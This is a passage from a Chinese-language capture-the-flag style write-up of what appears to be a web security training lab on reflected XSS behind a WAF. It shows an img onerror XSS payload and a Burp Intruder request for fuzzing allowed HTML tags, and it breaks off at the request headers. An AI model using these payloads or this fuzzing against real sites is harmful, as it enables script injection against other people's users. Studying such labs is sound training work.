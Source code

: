 ![avatar](pic/search_item111.PNG)
发现服务器会将搜索的内容打出来，可能存在XSS漏洞，简单的使用以下payload：

	<img src=1 onerror=alert(1)>
反馈tag is not allowed

靶场中提示存在WAF，故需要进行FUZZ，看看过滤了哪些。

实现：

	1.将/?search=111请求发送到intruder，将所搜内容处换成<$tag$>,拷贝xss sheet中的所有tag，对tag进行fuzz，如下：

    GET /?search=<§tag§> HTTP/1.1
    Host: ac591f291fdb1504c098165900620079.web-security-academy.net
    Cookie: session=3m3EdtgKPHxOEGKCsnAjgpqQlGrBUrVg
    Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
    Sec-Ch-Ua-Mobile: ?0
    Sec-Ch-Ua-Platform: "Windows"
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-User: ?1
    Sec-Fetch-Dest: document